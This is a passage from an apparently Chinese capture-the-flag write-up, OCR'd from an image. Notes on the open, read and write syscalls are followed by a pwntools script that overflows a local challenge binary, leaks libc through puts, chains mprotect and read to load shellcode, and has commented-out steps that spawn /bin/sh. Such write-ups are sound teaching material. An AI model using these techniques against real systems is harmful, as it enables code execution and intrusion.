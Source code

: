         open 返回值为文件描述符，第一个参数为文件名，pop_rdi把'flag'传入，第二个参数为flags
        #define O_RDONLY             00
        #define O_WRONLY             01
        #define O_RDWR               02
        只需要读flag，所以rsi为0
        read 返回值为已读的字节数，第一个参数为文件描述符，第二个参数为数据缓冲区，第三个参数为字节数，执行后将flag读入0x0804a200
        write 返回值为已写的字节数，第一个参数为文件描述符，第二个参数为数据缓冲区，第三个参数为字节数。文件描述符设为1(标准输出)，可以打印出0x0804a200的内容，也就是flag
        
        ```
    
        ```python
        from pwn import *
        context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
        #r = process(['./vuln'])
        r = process(['./sandbox','./vuln'])
        elf = ELF('./vuln')
        
        main = 0x0804865B
        puts_plt = elf.plt['puts']
        puts_got = elf.got['puts']
        read_plt = elf.plt['read']
        
        log.info('leak libc')
        padding = 'a' * 0x30 + p8(0x48)
        payload = padding + p32(puts_plt) + p32(main) + p32(puts_got)
        r.sendline(payload)
        r.recvline()
        puts_addr = u32(r.recv(4))
        mprotect = puts_addr + 0x8bb10
        system = puts_addr - 0x2a540
        
        '''
        log.info('get shell')
        payload = padding + p32(read_plt) + p32(main) + p32(0) + p32(0x0804a02c)
        r.sendline(payload)
        r.sendline('/bin/sh')
        payload = padding + p32(system) + p32(main) + p32(0x0804a02c)
        r.sendline(payload)
        r.interactive()
        '''
        log.info('mprotect')
        #0x08048729 : pop esi ; pop edi ; pop ebp ; ret
        ppp_ret = 0x08048729
        shellcode_addr = 0x0804a000
        payload = padding + p32(mprotect) + p32(ppp_ret) + p32(0x0804a000) + p32(0x1000)+p32(7)
        payload += p32(read_plt) + p32(shellcode_addr) + p32(0) + p32(shellcode_addr) + p32(0x100)
        r.sendline(payload)
        
        '''
        log.info('get shell')
        r.sendline(asm(shellcraft.sh())) 
        r.interactive()
        '''
        